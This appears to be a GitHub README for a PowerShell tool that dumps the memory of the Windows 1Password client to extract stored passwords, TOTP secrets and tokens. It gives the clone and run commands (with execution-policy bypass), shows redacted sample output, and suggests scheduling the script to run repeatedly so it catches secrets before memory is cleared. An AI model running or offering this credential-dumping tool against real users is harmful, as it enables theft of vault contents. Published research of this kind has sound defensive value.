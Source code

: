 # 1Password Secrets Dump

The 1Password password manager client keeps a lot of sensitive information in memory, such as credentials or any other type of document saved within the database.

A local user with **administrative privileges** can exfiltrate many of the secrets kept by 1Password by performing a memory dump of the `1Password.exe` process.

## Table of Contents

- [1Password Secrets Dump](#1password-secrets-dump)
  - [Table of Contents](#table-of-contents)
  - [About the issue](#about-the-issue)
  - [Getting Started](#getting-started)
    - [Prerequisites](#prerequisites)
    - [Installation](#installation)
  - [Usage](#usage)
    - [Example](#example)
  - [Known issues](#known-issues)
  - [Contributing](#contributing)
  - [Authors](#authors)
  - [Disclaimer](#disclaimer)
  - [License](#license)

## About the issue

_When you view an item in 1Password, the information must be decrypted for you to see it. 1Password temporarily stores this information in your computer’s memory while 1Password is open._

_This means that while 1Password is open, it’s possible for someone who has access to your computer to read that information from your computer’s memory. Under normal circumstances, only you have access to that information. This is how all software works._
[https://support.1password.com/kb/201902a/#about-the-issue](https://support.1password.com/kb/201902a/#about-the-issue)

## Getting Started

Thanks to these instructions, you can get a copy of the project up and run on your local machine for development and testing purposes.

### Prerequisites

- PowerShell
- 1Password client for Windows

### Installation

```powershell
git clone https://github.com/MrTiz/1Password-Secrets-Dump.git
```

## Usage

```powershell
PowerShell.exe -ExecutionPolicy Bypass -File .\1PasswordSecretsDump.ps1
```

### Example

```powershell
PowerShell.exe -ExecutionPolicy Bypass -File .\1PasswordSecretsDump.ps1
```
```json
...

{"account_state":"[REDACTED]","account_template_version":"[REDACTED]","account_type":"[REDACTED]","account_version":11,"base_attachment_url":"https://f.1passwordusercontent.eu/","base_avatar_url":"https://a.1passwordusercontent.eu/","secret_key":"[REDACTED]","enc_srp_x":{"cty":"b5+jwk+json","kid":"srpxkey","enc":"A256GCM","iv":"[REDACTED]","data":"[REDACTED]"},"sign_in_url":"https://my.1password.eu/","team_avatar":"[REDACTED]","team_name":"[REDACTED]","updated_at":"[REDACTED]","user_avatar":"[REDACTED]","user_email":"[REDACTED]","user_name":"[REDACTED]","user_keyset_version":"[REDACTED]","user_uuid":"[REDACTED]","user_version":"[REDACTED]","acl":"[REDACTED]","device_uuid":"[REDACTED]","billing_status":"[REDACTED]","storage_capacity":"[REDACTED]","storage_used":"[REDACTED]","account_template_language":"en-US","enc_unlock_key":{"cty":"b5+jwk+json","kid":"system_lock_protector","enc":"A256GCM","iv":"[REDACTED]","data":"[REDACTED]"},"enc_local_validation_key":{"cty":"b5+jwk+json","kid":"core-setting-authkey-wrapper","enc":"A256GCM","iv":"[REDACTED]","data":"[REDACTED]"}}

{"sections":[{"name":"[REDACTED]","title":"Secret Key","fields":[{"t":"secret key","n":"account-key","k":"concealed","v":"[REDACTED]"},{"t":"one-time password","n":"TOTP_[REDACTED]","k":"concealed","v":"[REDACTED]"}]},{"name":"linked items","title":"Related Items"}],"fields":[{"name":"email","value":"[REDACTED]","type":"T","designation":"username","id":""},{"name":"master-password","value":"[REDACTED]","type":"P","designation":"password","id":""},{"name":"account-key","value":"[REDACTED]","type":"T","id":""}],"notesPlain":"You can use this login to sign in to your account on 1password.eu."}

{"fields":[{"value":"MrTiz","name":"username","type":"T","designation":"username","id":""},{"value":"[REDACTED]","name":"password","type":"P","designation":"password","id":""}],"htmlForm":{},"sections":[{"name":"Section_[REDACTED]","title":"","fields":[{"k":"concealed","n":"TOTP_[REDACTED]","t":"one-time password","v":"otpauth://totp/Github:[REDACTED]?secret=[REDACTED]&period=[REDACTED]&digits=[REDACTED]&issuer=[REDACTED]"},{"k":"email","n":"[REDACTED]","t":"email","v":"[REDACTED]"},{"k":"concealed","n":"[REDACTED]","t":"Token","v":"[REDACTED]"},{"k":"phone","n":"[REDACTED]","t":"phone","v":"[REDACTED]"}]},{"name":"linked items","title":"Related Items"}],"notesPlain":"[REDACTED]","passwordHistory":[{"value":"[REDACTED]","time":"[REDACTED]"}]}

...
```

**N.B.** <u>Keep in mind that since version 7.4.750 for Windows, process memory is cleared much faster than in previous versions</u>. This was the result of what has been a long-term and ongoing project to rewrite 1Password for Windows in Rust [[kb/201902a](https://support.1password.com/kb/201902a/#update-highlights)].
So the ability to properly exfiltrate credentials is also a matter of luck as it is important to be able to run the script before the secrets are deleted from the process memory. Otherwise, you can schedule the script to run automatically at regular intervals or to run based on the visibility or focus of the client window. 😉

## Known issues
- If any of the fields within the JSON objects to be exfiltrated contain non-ASCII characters (e.g., emoji) pattern matching will fail.

## Contributing

Contributions are what make the open source community such a good place to learn, inspire, and create. 
Any contributions you can provide are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

## Authors

- **[Tiziano Marra](https://github.com/MrTiz)**

## Disclaimer

This exploit was developed and published for educational and research purposes only. The author assumes no responsibility for any illegal use. Use it at your own risk and only against systems for which you are authorized to test it.

## License
[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

This project is licensed under the GNU General Public License v3.0 - see the 
[LICENSE](https://github.com/MrTiz/1Password-Secrets-Dump/blob/main/LICENSE) file for details.
